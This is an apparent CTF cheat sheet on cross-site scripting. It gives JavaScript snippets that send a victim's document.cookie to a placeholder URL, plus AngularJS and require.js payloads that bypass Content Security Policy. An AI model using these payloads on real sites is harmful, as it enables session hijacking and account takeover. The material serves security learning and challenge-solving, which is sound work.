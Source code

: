 # 💬 XSS

Cross Site Scripting (XSS) is a type of attack in which malicious scripts are injected in a website and executed on the client browser.

There are three types of XSS:

- reflective
- stored
- DOM-based.

## Send requests in Javascript

XSS challenges usually require to do a request with a secret value.
These snippets below are possible ways to do it.

```js
// this is a redirection, but it could be used too
document.location = '<url>?cookie=' + document.cookie
```

```js
var request = new XMLHttpRequest()
request.open('GET', '<url>?cookie=' + document.cookie)
request.send(null)
```

```js
fetch('<url>?cookie=' + document.cookie)
```

## CSP bypasses

### JSONP endpoints

This technique is based on special JSONP endpoints that allows unsafe execution of malicious scripts.

Look [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) for a list of the most common endpoints.

:::caution
If there are any CSP sources set, you should pay attention on which endpoint you are using.
:::

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

### require.js

If the website uses require.js, it is possible to load additional code that will be automatically injected.
This means that the code will be loaded together with require.js and so it will avoid any nonce or other CSP.

```js
<script data-main="data:1,alert(1)" src="require.js"></script>
```
